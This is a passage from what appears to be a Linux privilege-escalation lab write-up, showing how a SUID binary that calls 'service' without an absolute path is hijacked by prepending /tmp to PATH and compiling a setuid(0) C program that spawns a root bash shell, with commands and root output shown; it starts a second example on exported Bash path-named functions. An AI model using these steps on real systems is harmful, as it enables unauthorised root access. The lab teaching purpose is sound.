 ```
system
__libc_start_main
GLIBC_2.2.5
fff.
fffff.
l$ L
t$(L
|$0H
service apache2 start
```
lets also run it and see
```
TCM@debian:/$ `/usr/local/bin/suid-env`
sh: service: command not found
TCM@debian:/$ 
```
We can observe that it cant find `service` command, 
we know that for any command that is not built into the shell or that is not defined with an absolute path, Linux will start searching in folders defined under `PATH`. 
If a folder for which your user has write permission is located in the path, you could potentially hijack an application to run a script
 Lets see folders in PATH
```
TCM@debian:/$ `echo $PATH`
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
TCM@debian:/$ 
```
None of the folders are writable, lets try to add /tmp in PATH as for user TCM /tmp is writable
```
TCM@debian:/$ `export PATH=/tmp:$PATH`
TCM@debian:/$ `echo $PATH`
/tmp:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
TCM@debian:/$ 
```
lets create a binary service in /tmmp and write our code into it
```
TCM@debian:/$ `echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c`
TCM@debian:/$ `gcc /tmp/service.c -o /tmp/service`
TCM@debian:/$ 
```
 Lets now run again the SUID binary we found, we got the root
```
TCM@debian:/$ `/usr/local/bin/suid-env`
root@debian:/# `id`
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
root@debian:/# 
```

**Example 6**
in Bash versions <4.2-048 we can create functions whose name resemble file paths) we examine SUID binary names 'suid-env2' using strings and found string '/usr/sbin/service apache2 start' this is similar to example5 but here it has absolute path of service executable (/usr/sbin/service) to start the apache2 webserver. In Bash versions <4.2-048 it is possible to define shell functions with names that resemble file paths, then export those functions so that they are used instead of any actual executable, we make use of it
